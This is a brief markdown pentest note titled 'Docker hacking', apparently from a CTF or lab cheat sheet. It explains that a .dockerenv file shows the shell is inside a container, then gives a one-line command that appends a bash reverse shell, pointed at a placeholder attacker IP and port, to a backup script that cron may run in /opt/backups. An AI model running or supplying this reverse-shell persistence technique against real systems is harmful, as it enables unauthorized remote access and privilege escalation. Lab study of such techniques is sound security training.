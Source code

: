 ```yaml
---
title: Docker hacking 🐳
---
```


- If we find a `.dockerenv` file in the root directory, we are running inside a docker container

![](./img/Pasted%20image%2020240215214817.png)

- If we find a `.sh` on the `/opt/backups` directory like a backup script that might be running a cron job, we can try to write a reverse shell to it:

```shell
echo "bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1" >> backup.sh
```
